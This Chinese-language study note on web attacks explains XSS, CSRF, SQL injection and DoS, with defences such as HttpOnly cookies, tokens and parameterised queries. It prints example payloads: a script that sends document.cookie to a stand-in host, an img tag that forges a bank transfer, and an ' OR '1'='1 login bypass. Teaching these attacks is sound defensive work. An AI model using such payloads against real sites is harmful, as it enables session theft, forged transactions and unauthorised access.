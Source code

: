 ## 跨站脚本攻击
### 概念
跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。
```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```
### 危害：
- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 防范手段
1. 设置 Cookie 为 HttpOnly
设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

2. 过滤特殊字符  
    例如将 < 转义为 &lt;，将 > 转义为 &gt;，从而避免 HTML 和 Jascript 代码的运行。  

    富文本编辑器允许用户输入 HTML 代码，就不能简单地将 < 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。  
    
    富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。
    
    ```html
        <h1>XSS Demo</h1>
        
        <p>123</p>
        
        &lt;form&gt;
          &lt;input type="text" name="q" value="test"&gt;
        &lt;/form&gt;
        
        <pre>hello</pre>
        
        &lt;script type="text/javascript"&gt;
        alert(/xss/);
        &lt;/script&gt;
    ```
    
## 跨站请求伪造
### 概念
跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。

**XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。**

### 攻击原理
假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```
那么，一个恶意攻击者可以在另一个网站上放置如下代码：
```html
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
```
如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

### 防范手段
#### 1. 检查 Referer 首部字段
Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

#### 2. 添加校验 Token
在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

#### 3. 输入验证码
因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。


## SQL 注入攻击
### 概念
服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。
### 攻击原理


例如一个网站登录验证的 SQL 查询代码为：
```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```
如果填入以下内容：
```html
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```
那么 SQL 查询字符串为：
```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```        
此时无需验证通过就能执行以下查询：

```sql 
strSQL = "SELECT * FROM users;
```

### 防范手段
#### 1. 使用参数化查询
Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入的发生。
```
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
stmt.setString(1, userid);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```
#### 2. 单引号转换
将传入的参数中的单引号转换为连续两个单引号，PHP 中的 Magic quote 可以完成这个功能。

## 拒绝服务攻击
拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。